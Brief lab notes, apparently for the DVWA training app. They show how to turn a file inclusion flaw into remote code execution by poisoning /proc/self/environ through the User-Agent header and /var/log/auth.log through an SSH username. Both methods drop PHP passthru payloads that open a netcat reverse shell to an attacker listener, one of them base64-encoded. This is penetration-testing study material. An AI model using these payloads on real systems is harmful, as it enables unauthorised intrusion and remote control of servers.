 # DVWA

## File Inclusion
- Method 1
  1. *"USER_AGENT"* in in this file
     - ```[DVWA address]/dvwa/vulnerabilities/fi/?page=../../../../../proc/self/environ```
  2. Intercept request and modify *"USER_AGENT"* header for test
     - Burp path: Proxy -> Intercept -> Headers -> Modify 'User-Agent' value to ```<?phpinfo();?>``` 
  3. Listening on attacker machine
     - ```nc -vv -l -p 8888```
  4. Modify *"USER_AGENT"* header for Reverse-shell
     - ```<?passthru("nc -e /bin/sh [Attacker address] 8888");?>```

- Method 2
  1. SSH login attempts are in this file
     - ```[DVWA address]/dvwa/vulnerabilities/fi/?page=../../../../../var/log/auth.log```  
  2. Encode ```nc -e /bin/sh [Attacker address] 8888``` to Base64
  3. Attacker machine: ```nc -vv -l -p 8888```
  4. Attacker machine: ```ssh "<?passthru(base64_decode('bmMgLWUgL2Jpbi9zaCAxNzIuMjUuMTIuMzQgODg4OA=='));?>"@[DVWA address]```
